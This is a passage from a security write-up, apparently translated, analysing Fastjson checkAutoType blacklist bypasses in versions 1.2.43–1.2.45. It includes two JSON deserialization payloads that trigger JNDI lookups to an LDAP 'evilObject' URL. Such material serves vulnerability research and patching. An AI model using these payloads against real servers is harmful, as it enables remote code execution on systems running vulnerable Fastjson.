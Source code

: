 As you can see from the code, the checkAutoType code used to check adds judgment. If two `L` appears in a row, an exception will be thrown. In this way, the idea of ​​using `L` and `;` is blocked. However, in the process of `loadClass`, it is also processed and recursive for `[`, so it can still be bypassed.

### payload

```java
{
    "@type":"[com.sun.rowset.JdbcRowSetImpl"[{,
    "dataSourceName":"ldap://127.0.0.1:8888/evilObject",
	"autoCommit":true
}
```

## Fastjson 1.2.44
### analyze
This version mainly fixes the issue of using `[` to bypass blacklist protection in the previous version.

```java
long BASIC = -3750763034362895579L;
long PRIME = 1099511628211L;
long h1 = (-3750763034362895579L ^ (long)className.charAt(0)) * 1099511628211L;
if (h1 == -5808493101479473382L) {
    throw new JSONException("autoType is not support. " + typeName);
} else if ((h1 ^ (long)className.charAt(className.length() - 1)) * 1099511628211L == 655701488918567152L) {
    throw new JSONException("autoType is not support. " + typeName);
}
```

As you can see from the code, a new judgment was added to the `checkAutoType`, and if the class name starts with `[`, an exception will be directly thrown. Therefore, the blacklist bypass caused by string processing has come to an end.

## Fastjson 1.2.45
### analyze

This version revealed a blacklist bypass.

### payload

```java
{
    "@type":"org.apache.ibatis.datasource.jndi.JndiDataSourceFactory",
    "properties":{
        "data_source":"ldap://127.0.0.1:8888/evilObject"
    }
}
```
